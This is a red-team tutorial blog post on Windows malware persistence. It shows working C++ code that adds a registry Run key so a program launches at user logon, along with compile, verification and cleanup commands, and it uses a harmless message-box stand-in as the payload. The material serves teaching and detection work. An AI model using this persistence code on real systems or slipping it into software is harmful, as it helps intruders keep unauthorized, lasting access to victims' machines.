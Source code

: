 ```yaml
---
title:  "Malware development: persistence. Startup folder registry keys. C++ example."
date:   2022-04-20 10:00:00 +0600
header:
  teaser: "/assets/images/51/2022-04-20_09-43.png"
categories:
  - tutorial
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![pers](/assets/images/51/2022-04-20_09-43.png){:class="img-responsive"}    

This post starts a series of articles on windows malware persistence techniques and tricks.    

Today I'll wrote about the result of self-researching "classic" persistence trick: startup folder registry keys.    

### run keys

Adding an entry to the "run keys" in the registry will cause the app referenced to be executed when a user logs in. These apps will be executed under the context of the user and will have the account's associated permissions level.    

The following run keys are created by default on Windows Systems:    

`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`    
![pers](/assets/images/51/2022-04-20_18-57.png){:class="img-responsive"}    

`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce`    
![pers](/assets/images/51/2022-04-20_18-58.png){:class="img-responsive"}    

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`    
![pers](/assets/images/51/2022-04-20_18-59.png){:class="img-responsive"}    

> Please note that this suggests to another trick to anti-VM (VirtualBox)    

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce`    
![pers](/assets/images/51/2022-04-20_18-59_1.png){:class="img-responsive"}    

Threat actors can use these configuration locations to execute malware to maintain persistence through system reboots. Threat actors may also use masquerading to make the registry entries look as if they are associated with legitimate programs.    

### practical example

Let's go to look at a practical example. Let's say we have a *"malware"* `hack.cpp`:   

```cpp
/*
meow-meow messagebox
author: @cocomelonc
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}
```

Let's go to compile it:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mwindows -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/51/2022-04-20_19-08.png){:class="img-responsive"}    

And save it to folder `Z:\\2022-04-20-malware-pers-1\`:    

![pers](/assets/images/51/2022-04-20_19-10.png){:class="img-responsive"}    

Then, let's create a script `pers.cpp` that creates registry keys that will execute our program `hack.exe` when we log into Windows:    

```cpp
/*
pers.cpp
windows low level persistense via start folder registry key
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious app
  const char* exe = "Z:\\2022-04-20-malware-pers-1\\hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"hack", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see, logic is simplest one. We just add new registry key. Registry keys can be added from the terminal to the run keys to achieve persistence, but since I love to write code, I wanted to show how to do it with some lines of code.    

### demo

Let's compile our `pers.cpp` script:   

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/51/2022-04-20_19-20.png){:class="img-responsive"}    

Then, first of all, check registry keys in the victim's machine:    

```powershell
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

![pers](/assets/images/51/2022-04-20_09-35.png){:class="img-responsive"}    

Then, run our `pers.exe` script and check again:   

```powershell
.\pers.exe
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

![pers](/assets/images/51/2022-04-20_09-39.png){:class="img-responsive"}    

As you can see, new key added as expected.    
So now, check everything in action. Logout and login again:    

![pers](/assets/images/51/2022-04-20_09-40.png){:class="img-responsive"}    

![pers](/assets/images/51/2022-04-20_09-40_1.png){:class="img-responsive"}    

![pers](/assets/images/51/2022-04-20_09-44.png){:class="img-responsive"}    

Pwn! Everything is worked perfectly :)    

After the end of the experiment, delete the keys:    

```powershell
Remove-ItemProperty -Path "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "hack"
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

![pers](/assets/images/51/2022-04-20_09-46.png){:class="img-responsive"}    

### conclusion

Creating registry keys that will execute an malicious app during Windows logon is one of the oldest tricks in the red team playbooks. Various threat actors and known tools such as Metasploit, Powershell Empire provide this capability therefore a mature blue team specialists will be able to detect this malicious activity.

[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[Remove-ItemProperty](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/remove-itemproperty?view=powershell-7.2)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)    
[source code in github](https://github.com/cocomelonc/2022-04-20-malware-pers-1)    

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
